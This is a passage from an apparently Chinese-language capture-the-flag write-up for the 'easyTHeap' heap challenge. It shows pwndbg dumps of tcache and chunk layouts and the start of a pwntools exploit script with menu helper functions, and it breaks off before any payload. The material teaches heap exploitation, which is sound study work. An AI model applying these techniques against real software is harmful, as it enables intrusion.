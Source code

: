 ```c
Addr: 0x555555757300
Size: 0x20d01

pwndbg> x/200gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache_perthread_struct
.......(省略内容均为空)
0x555555757250:	0x0000000000000000	0x0000000000000021 #chunk1
0x555555757260:	0x0000000000000000	0x0000000000000000
0x555555757270:	0x0000000000000000	0x0000000000000031 #chunk2
0x555555757280:	0x0000000000000000	0x0000000000000000
0x555555757290:	0x0000000000000000	0x0000000000000000
0x5555557572a0:	0x0000000000000000	0x0000000000000061 #chunk3
.......(省略内容均为空)
0x555555757300:	0x0000000000000000	0x0000000000020d01 #top_chunk
.......(省略内容均为空)
0x555555757630:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

从上面可以得到，chunk1的data指针所指向的地址为0x555555757260，对应一下内存：

```c
pwndbg> x/16gx 0x555555756060
0x555555756060:	0x000000280000000a	0x0000000000000050 #chunk_input_size
    			#size2    #size1              #size3
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000555555757260	0x0000555555757280 #malloc_data_ptr
    			#chunk1_data_ptr    #chunk2_data_ptr
0x555555756090:	0x00005555557572b0	0x0000000000000000
    			#chunk3_data_ptr
0x5555557560a0:	0x0000000000000000	0x0000000000000000
0x5555557560b0:	0x0000000000000000	0x0000000000000000
0x5555557560c0:	0x0000000000000000	0x0000000000000000
0x5555557560d0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

# exp
先贴一下exp：

```python
#! /usr/bin/env python
from pwn import *

p = process('./vn_pwn_easyTHeap_patch')
#p = remote('node3.buuoj.cn', 25389)
elf = ELF('./vn_pwn_easyTHeap_patch')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def new(size):
    p.sendlineafter('choice: ', '1')
    p.sendlineafter('size?', str(size))

def edit(index, content):
    p.sendlineafter('choice: ', '2')
    p.sendlineafter('idx?', str(index))
    p.sendlineafter('content:', content)

def show(index):
    p.sendlineafter('choice: ', '3')
    p.sendlineafter('idx?', str(index))

def delete(index):
    p.sendlineafter('choice: ', '4')
```